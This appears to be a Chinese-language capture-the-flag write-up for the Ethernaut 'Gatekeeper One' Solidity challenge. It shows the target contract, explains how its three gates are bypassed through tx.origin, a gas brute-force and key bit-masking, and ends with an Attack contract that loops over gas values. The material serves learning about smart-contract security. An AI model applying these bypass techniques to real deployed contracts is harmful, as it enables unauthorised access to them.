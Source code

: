 #   Level 13 Gatekeeper One
實例地址：`0xA3B13A47FD5eE7BdFE9797c8d3e0cBF2bCDe6A90`

##  題目說明
跨越守衛的守衛並且註冊成為參賽者吧。

  可能會有用的資訊

*   回憶一下你在 Telephone 和 Token 關卡學到了什麼
*   可以去翻翻 Solidity 文件，更深入的了解一下 gasleft() 函式的資訊 (參見 Units and Global Variables 和 External Function Calls).
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

##  POC
這個合約需要破解三道需求即可，第一道解決方式只要使用另一個合約呼叫即可，第二道需要殘留的 `gas` 需要能和 8191 整除，第三道需要稍微計算一下，第一個要求後 2 byte 需要一樣，第二個要求全部不等於後 4 byte，第三個要求 地址末四位需要等於後 4 byte。

這邊使用暴力破解方式去解第二道，使用 i (1-8190) + 8191*3(預估使用值) 迴圈直到交易成功。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address public target;
    bool public top = false;
    bytes8 public data=0xaaaaaaaa0000b0B6;
    
    constructor(address _target){
        target = _target;
    }

    function attack() external{
        for(uint256 i=0;i<8191;i++){
           (bool result,) = target.call{gas:i+8191*3}(abi.encodeWithSignature("enter(bytes8)", data));
        }
    }

}
```